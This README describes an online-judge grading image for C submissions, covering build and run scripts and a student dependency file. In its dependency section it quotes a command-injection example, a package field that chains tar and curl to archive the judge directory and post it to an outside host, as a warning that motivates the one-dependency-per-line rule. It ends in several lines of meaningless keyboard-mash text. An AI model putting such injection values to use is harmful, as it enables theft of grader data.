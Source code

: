 # OJ Sample judging image

This image serves as a base for grading student submissions. 
There are many hardcoded restrictions so please do read this document! 
If in doubt, you can consult the reference implementation.

# Quick start

We have set up this base image for simple judging tasks, which

* runs on ubuntu 16.04
* submission is a single c source file named `main.c` targeting c11
* compiled binary takes input from STDIN and print to STDOUT
* output is graded by `diff`ing it with a predefined reference output
* may have numerous test cases
* does not require installing student-defined dependencies with `apt` or `pip3`

If your need happens to match this, you can start reading the section on
where to place test data. 
If not, we have also written a few common customization guides.
If all failed, please refer to the [WALKTHROUGH.md](WALKTHROUGH.md)
we have written. 
This detailed guide contains everything you will need to rewrite this
image to suit your needs.

## Test data location
It is placed in `tests/` directory. Please refer to readme inside those 
directories on details.

## Customize build command

1. Edit `build` script. 
1. Replace line 4 with your command.
1. If your command require addition packages, please add them to
relevant location in `Dockerfile`

Please be ware your compile command have connectivity to the internet.

Please note the default run script requires an executable file at 
`/test/executable` as the student program.
Since you are using custom compile command, you may also wish to use
a custom run command.

## Customize run command
1. Edit `run.py` script. 
1. Replace line 101 with the executable.
2. Replace line 106 with the arguments to the executable including `argv[0]`
 which is executable name.
1. There are various other settings can be changed in the script.
 
 For anything more advanced

## Install student defined dependencies

*If you are using python, please note `pip install .` is considered a 
build command and should not be used here.*

Uncomment everything inside `setup` script. 

Oh, Please don't uncomment the shebang line (`#!/usr/bin/env bash` line)

This will allow student to place a file named dependencies. 
This file is a key-value file, with key being the installation method,
and the value being the dependency.
One pair per line.
The key-value is separated with three colons (`:::`)
This image comes with `apt` and `pip3` installation method but it is 
easy to define your own.

NOTE: For sake of security, we enforce a rule of *one dependency per line*.

### Adding/removing custom dependency installation method

Open `dep.awk`, while you may not be familiar with awk, the template 
should be easy enough to follow.

First, you select a good identifier to indicate the installation method.
This identifier does not need to have connection with the actual
install command, e.g. `asjdui` can be used to identify `pip3 install -U`
but your student will believe you can't name things properly.

You then think of how the actual installation should commence.
You should write a command template that would install the package.

You now fill the following template and append the result to `dep.awk`.

    $1~/<identifer>/ {
        print "run_cmd.py <install command>" "--" $2 
    }

---

Remember the student may give a line like this

    apt:gcc;tar -zcvf /t /judge;curl -X POST example.com/post -d /t

So it's suggested to pass the dependency as a single argument. 
This is also why we enforce the rule of *one dependency per line*.

We have provided two wrappers `run_cmd.py` and `run_cmd_no_slash.py`
to facilitate this need.

The first wrapper will take first argument as target executable, other 
argument before `--` as options, and join everything after `--` with
a space as delimiter and use the result as a whole as the last argument 
to the target executable.   

The second wrapper will additionally reject any package that has `/` in
it.
This will be helpful to prevent package manager from installing from 
local directory, as installation script of a local package is not as
trusty as one on e.g. `PyPI`.

# Customize grading method
It is suggested to use the utilities in `grading/util.py` as the OJ
requires a specific pattern in `STDOUT` to be able to read the grading
result.

You can consult `grading/grade.py` on how to use it.
adsfdsadfafds
adfadfadfsdafsdfsafdssfdsdffsd
dsfdsfdfsdadsfdsaffdsa
adfadsfdafsafdsdssdfsdf
sadfsdafdafdadfsdfaf
dsafddf
